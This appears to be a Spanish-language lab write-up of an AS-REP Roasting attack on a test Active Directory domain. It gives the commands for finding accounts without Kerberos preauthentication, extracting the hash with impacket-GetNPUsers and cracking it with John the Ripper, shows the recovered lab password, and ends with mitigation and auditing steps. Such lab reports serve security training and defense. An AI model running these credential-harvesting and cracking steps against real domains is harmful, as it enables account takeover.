


# Fase de Explotación: AS-REP Roasting

## 1. Identificación de la Vulnerabilidad
Durante la fase de enumeración, se identificó que el usuario `svcadmin` tiene configurado el atributo `UF_DONT_REQUIRE_PREAUTH`. Esto permite solicitar un ticket TGT sin proporcionar una contraseña, exponiendo el hash para un ataque offline.

**Verificación en el DC-01:**
```powershell
Get-ADUser -Identity "svcadmin" -Properties DoesNotRequirePreAuth | Select-Object Name, DoesNotRequirePreAuth
```
# Resultado: True

## 2. Extracción del Hash
Utilizando la suite Impacket, se realizó la solicitud del ticket para obtener el hash Kerberos AS-REP.

**Comando ejecutado en Kali:**
```Bash
impacket-GetNPUsers attackitivedirectory.local/svcadmin -no-pass -dc-ip 10.0.2.10
```

## 3. Cracking de Contraseña
El hash obtenido se guardó en un archivo y se procesó con John the Ripper utilizando un ataque de diccionario.

**Comando de crackeo:**
```Bash
john --format=krb5asrep --wordlist=dicc.txt hash_final.txt
```
# Resultado:

**Usuario: svcadmin**

**Contraseña: Laboratorio123**

## 4. Evidencia
Se adjunta captura del crackeo exitoso:


## 5. Mitigación y Recomendaciones
Para corregir esta vulnerabilidad y prevenir ataques de **AS-REP Roasting**, se deben aplicar las siguientes medidas:

1. **Requerir Pre-autenticación:** Desmarcar la opción "Do not require Kerberos preauthentication" en las propiedades del usuario en Active Directory.
   - **Comando de remediación (PowerShell):**
     ```powershell
     Set-ADAccountControl -Identity "svcadmin" -DoesNotRequirePreAuth $false
     ```
2. **Robustez de Contraseñas:** Implementar una política de contraseñas de alta complejidad para que, en caso de que se logre extraer un hash, el crackeo offline sea computacionalmente inviable.
3. **Auditoría:** Monitorear el Event ID **4768** (A Kerberos authentication ticket (TGT) was requested) en los logs del controlador de dominio para detectar solicitudes inusuales sin pre-autenticación.